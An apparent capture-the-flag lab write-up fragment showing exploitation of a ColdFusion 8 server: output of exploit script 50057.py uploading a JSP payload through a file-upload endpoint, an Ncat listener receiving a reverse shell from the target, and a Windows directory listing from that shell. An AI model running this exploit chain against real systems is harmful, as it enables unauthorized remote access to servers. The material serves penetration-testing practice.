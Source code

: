 ### Exploitation

```r
python3 50057.py 

Generating a payload...
Payload size: 1497 bytes
Saved as: 1269fd7bd2b341fab6751ec31bbfb610.jsp

Priting request...
Content-type: multipart/form-data; boundary=77c732cb2f394ea79c71d42d50274368
Content-length: 1698

--77c732cb2f394ea79c71d42d50274368

<SNIP>

--77c732cb2f394ea79c71d42d50274368--


Sending request and printing response...


		<script type="text/javascript">
			window.parent.OnUploadCompleted( 0, "/userfiles/file/1269fd7bd2b341fab6751ec31bbfb610.jsp/1269fd7bd2b341fab6751ec31bbfb610.txt", "1269fd7bd2b341fab6751ec31bbfb610.txt", "0" );
		</script>
	

Printing some information for debugging...
lhost: 10.10.14.55
lport: 4444
rhost: 10.129.247.30
rport: 8500
payload: 1269fd7bd2b341fab6751ec31bbfb610.jsp

Deleting the payload...

Listening for connection...

Executing the payload...
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.247.30.
Ncat: Connection from 10.129.247.30:49866.
```

### Reverse

```r
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C03-76A8

 Directory of C:\ColdFusion8\runtime\bin

22/03/2017  08:53 ��    <DIR>          .
22/03/2017  08:53 ��    <DIR>          ..
18/03/2008  11:11 ��            64.512 java2wsdl.exe
```